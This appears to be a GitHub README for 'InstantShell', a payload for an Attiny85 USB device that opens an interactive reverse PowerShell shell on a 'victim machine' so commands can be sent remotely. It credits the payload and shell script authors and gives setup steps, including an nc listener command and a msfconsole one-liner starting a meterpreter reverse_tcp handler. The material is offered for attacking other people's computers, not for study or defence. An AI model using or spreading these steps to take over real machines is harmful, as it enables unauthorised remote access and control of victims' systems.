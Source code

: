 # InstantShell

### Description:

#### 1: InstantShell.ino:<br>

**Payload by:** [hum4nG0D](https://github.com/hum4nG0D/)

Get instant interactive reverse powershell shell in less than a minute and send commands remotely to victim machine. Interactive reverse Powershell shell script from [Nikhil SamratAshok Mittal](http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html)

**Instructions:**
Start an nc listener or metasploit listener. Be sure to change IP and Port. Adjust script delay which suits best to your computer.

```
nc -lvnp 4444
```

```
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP_ADDRESS>; set lport 4444; set ExitOnSession false; exploit -j"
```

**Tested on:**<br>
**OS**: Windows 10|11<br>
**User**: Admin/Normal User<br>
**Hardware**: Attiny85

